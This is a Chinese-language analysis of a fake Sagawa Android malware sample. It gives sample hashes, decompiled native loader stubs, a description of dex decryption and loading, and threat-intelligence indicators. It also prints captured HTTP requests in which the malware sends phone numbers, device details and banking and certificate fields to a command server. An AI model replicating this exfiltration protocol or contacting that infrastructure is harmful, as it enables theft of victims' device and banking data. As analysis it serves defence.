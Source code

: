 ﻿---
title: Android malware analysis - fake Sagawa malware
---

标签（空格分隔）： AndroidSec

---

## 1.0 样本信息
```
MD5:0fdc23ae9445ab84e2b9d4824ea137f8
证书指纹:
  MD-5: 2BB211C701B44AF41C9B52274B3C7B28 
  SHA-1: 05FB1C007D4A3D43F3E6008ED11FDEB46E948120 
  SHA-256: F020E1491710E0BDEB3ED1FEC7C459C9F855A16C5DB57DBA56629711B1BB32AB 
```
## 2.0 静态分析
### 2.1 程序入口
![](https://i.screenshot.net/j3987ar)
### 2.2 libxxn.so分析
![](https://i.screenshot.net/v835zuz)
#### 2.2.1 Java_huaa_TII_run函数
```c++
int __fastcall Java_huaa_TII_run(int a1, int a2, int a3, int a4, int a5, int a6, int a7)
{
  return j_rrr(a1, a3, a4, a5, a6, a7);
}
```
#### 2.2.2 j_rrr函数
```c++
int __fastcall j_rrr(int a1, int a2, int a3, int a4, int a5, int a6)
{
  return rrr(a1, a2, a3, a4, a5, a6);
}
```
#### 2.2.3 rrr函数,先将Asset目录下的nini.dll解密生成mycode.jar,然后将mycode.jar的部分数据生成mycode.dex，然后载入dex,然后删除jar和dex
![](https://i.screenshot.net/njjowao)
### 2.3 拿到mycode.jar进行分析,一部分是证书，另外一部分是dex
![](https://i.screenshot.net/r33p4i8)
#### 2.3.1 主Activity分析
![](https://i.screenshot.net/7gz7ns8)
#### 2.3.2 UK.class服务分析
![](https://i.screenshot.net/1kq3mcd)
#### 2.3.3 BK.class服务分析
![](https://i.screenshot.net/06ld9f1)
#### 2.3.4 申请成为Device Admin权限的LA类，但是没有调用
![](https://i.screenshot.net/52lzmuy)
#### 2.3.5 保存恶意url的xml
![](https://i.screenshot.net/120y5um)
#### 2.3.6 下载new.apk的类，也没有调用
![](https://i.screenshot.net/vzkp2b7)

## 3 行为分析
### 3.1 /servlet/xx 内容
```
POST http://125.227.174.32//servlet/xx HTTP/1.1
ser-Agent: Fiddler
Content-Type: application/json
User-Agent: Dalvik/2.1.0 (Linux; U; Android 6.0.1; MuMu Build/V417IR)
Host: 125.227.174.32
Connection: Keep-Alive
Accept-Encoding: gzip
Content-Length: 134

{"json":"{\"mobile\":\"008796758773174\",\"machine\":\"MuMu\",\"sversion\":\"6.0.1\",\"bank\":\"\",\"provider\":\"\",\"npki\":\"1\"}"}
```
### 3.2 /servlet/GetMessag 内容
```
POST http://125.227.174.32//servlet/GetMessage HTTP/1.1
ser-Agent: Fiddler
Content-Type: application/json
User-Agent: Dalvik/2.1.0 (Linux; U; Android 6.0.1; MuMu Build/V417IR)
Host: 125.227.174.32
Connection: Keep-Alive
Accept-Encoding: gzip
Content-Length: 30

{"json":"{\"mobile\":\"xx\"}"}
```
### 3.3 /servlet/GetMoreMessage 内容
```
POST http://125.227.174.32//servlet/GetMoreMessage HTTP/1.1
ser-Agent: Fiddler
Content-Type: application/json
User-Agent: Dalvik/2.1.0 (Linux; U; Android 6.0.1; MuMu Build/V417IR)
Host: 125.227.174.32
Connection: Keep-Alive
Accept-Encoding: gzip
Content-Length: 43

{"json":"{\"mobile\":\"008796758773174\"}"}
```

### 4 威胁情报
- http://125.227.174.32/  中国-台湾  垃圾邮件
- http://sagawa-aiai.com/ 对应IP 114.40.189.238 中国-台湾-高雄市
- http://67.198.138.244:8081 美国-加利福尼亚州-洛杉矶

### 5 吃颗同事的喜糖，沾沾喜气顺便平复一下单身加班的心情
![](https://i.screenshot.net/p75m4ur)







